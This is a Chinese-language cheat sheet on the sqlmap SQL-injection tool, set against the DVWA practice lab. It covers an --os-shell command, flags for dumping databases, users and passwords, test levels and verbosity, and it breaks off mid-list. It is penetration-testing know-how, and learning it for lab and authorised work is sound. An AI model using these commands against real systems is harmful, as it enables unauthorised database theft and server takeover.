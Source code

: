 使用shell命令：

sqlmap -r “c:\tools\request.txt” -p id –dms mysql –os-shell
接下来指定网站可写目录：
“E:\php\htdocs\dvwa”

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

## sqlmap详细命令：

- –is-dba 当前用户权限（是否为root权限）
- –dbs 所有数据库
- –current-db 网站当前数据库
- –users 所有数据库用户
- –current-user 当前数据库用户
- –random-agent 构造随机user-agent
- –passwords 数据库密码
- –proxy http://local:8080 –threads 10 (可以自定义线程加速) 代理
- –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）

-  --dump 获取表中的数据，包含列
-  --dump-all 转存DBMS数据库所有表项目
-  --level 测试等级(1-5)， 默认为1 
- 读取数据--->读取表--读取表的列--->获取内容
- -D 指定数据库
- -T 指定表 
- -C 指定列
-  --dbms=mysql oracle mssql 指定数据库
- --privileges 列出数据库管理员权限
- sqlmap.py -u "http://xx.com/int.php?id=1" --schema --batch --exclude-sysdbs

### 测试等级

参数:  --level
共有五个等级，默认为1，sqImap使用的payload可以在xml/payloads.xml中看到，你也可以根据相应的格式添加自己的payload。
这个参数不仅影响使用哪些payload同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候就会测试，HTTP User-Agent/Referer头在level为3的时候就会测试。
总之在你不确定哪个payload或者参数为注入点的时候，为了保证全面性，建议使用高的Ievel值。

### 显示调试信息

- -V显示调试信息有7个级别
- 0、只显示python错误以及严重的信息。
- 1、同时显示基本信息和警告信息。 (默认)
- 2、同时显示debug信息。
- 3、同时显示注入的payload。
- 4、同时显示HTTP请求。
- 5、同时显示HTTP响应头。
- 6、同时显示HTTP响应页面。

### Options（选项）：

- –version 显示程序的版本号并退出
- -h, –help 显示此帮助消息并退出
- -v VERBOSE 详细级别：0-6（默认为1）
- --batch  自动确认
- 保存进度继续跑：
